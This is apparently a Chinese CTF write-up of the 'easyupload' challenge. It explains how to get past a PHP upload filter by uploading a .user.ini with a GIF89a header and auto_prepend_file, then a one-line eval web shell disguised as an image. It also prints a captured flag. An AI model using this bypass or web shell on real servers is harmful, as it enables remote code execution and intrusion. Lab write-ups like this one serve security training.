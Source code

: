```
flag：flag{7e8d8715-6120-4ec3-9f91-e85469922fc7}
```

## [攻防世界] easyupload

一开始上传了各种文件上去都不行，哪怕将文件的后缀名于`IMIE`类型都改为图片类型都不行，以此猜测到还对文件头进行过滤

需要绕过的点如下

- 检查文件内容是否有php字符串
- 检查后缀中是否有htaccess或ph
- 检查文件头部信息
- 文件MIME类型

先上传`user.ini`文件并修改文件类型，该文件的详细描述在 ---> 橙子科技

由于对文件头做了过滤，所以这里必须附带上`GIF89a`

作用：在加载同一目录下的PHP文件时，会先将`.user.ini`文件的内容加载到PHP配置文件`php.ini`，并执行`php.ini`文件的内容，`auto_prepend_file`加载到文件头将文件`GIF89a.jpg`当作PHP文件来执行

```
# .user.ini
GIF89a
auto_prepend_file=GIF89a.jpg
```



<img src="CTF.assets/image-20230709230315351.png" alt="image-20230709230315351" style="zoom:50%;" />

上传木马：注意修改后缀名和文件类型

```
GIF89a
<?=eval($_POST['cmd']);?>
```



<img src="CTF.assets/image-20230709230735067.png" alt="image-20230709230735067" style="zoom:50%;" />
